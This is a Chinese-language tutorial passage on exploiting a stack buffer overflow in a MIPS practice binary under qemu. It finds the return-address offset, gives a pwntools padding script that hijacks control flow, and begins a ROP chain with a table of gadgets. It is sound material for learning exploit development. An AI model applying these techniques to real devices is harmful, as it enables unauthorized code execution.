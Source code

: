 1.我们首先还是先编写一个启动脚本local.sh:

```
#! /bin/sh
PORT="1234"
cp $(which qemu-mipsel-static) ./qemu
./qemu -L ./ -g $PORT ./pwnable/Intro/stack_bof_01 "`cat content1`"
rm ./qemu
```

2.然后确定一个偏移，我们用`python patternLocOffset -c -l 600 -f content`生成一个输入脚本content1，然后用local1.sh起起来，用`gdb-multiarch`调试，最终得到寄存器`$ra`的值`0x72413971`,然后用`python patternLocOffset -s 0x72413971 -l 600`得到偏移是508。

[![](https://p5.ssl.qhimg.com/t018c5614c4510828f9.png)](https://p5.ssl.qhimg.com/t018c5614c4510828f9.png)

3.编写利用脚本，`vi content1.py`为

```
from pwn import *
f=open("content1","wb")
data = "a"*508
data+="bbbb"
f.write(data)
f.close()
```

4.然后我们拿这个content1.py生成的content1运行，然后调试，可以看到我们已经成功的劫持了控制流。

[![](https://p1.ssl.qhimg.com/t01690d23c593134bb7.png)](https://p1.ssl.qhimg.com/t01690d23c593134bb7.png)

5.下面就要进行我们的重点了，也就是rop链的生成。这里有一点需要说的是，我们在调用我们的shellcode之前，要先调用一个`sleep(1)`，（原理的话，引用大佬的话，就是在构造ROP的时候调用sleep()函数，是的D-cach写回，I-cache生效）。

1)所以，这个里面，我们需要先一个gadget，把寄存器`$a0`赋值为`1`的gadget。我们用mipsrop.find(“li `$a0`,1”)

```
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x00018AA8  |  li $a0,1                                            |  jalr  $s3                             |
|  0x0002FB10  |  li $a0,1                                            |  jalr  $s1                             |
|  0x00012D3C  |  li $a0,1                                            |  jr    0x28+var_8($sp)                 |
|  0x00022420  |  li $a0,1                                            |  jr    0x28+var_8($sp)                 |
|  0x0002A9C8  |  li $a0,1                                            |  jr    0x20+var_4($sp)                 |
----------------------------------------------------------------------------------------------------------------
```
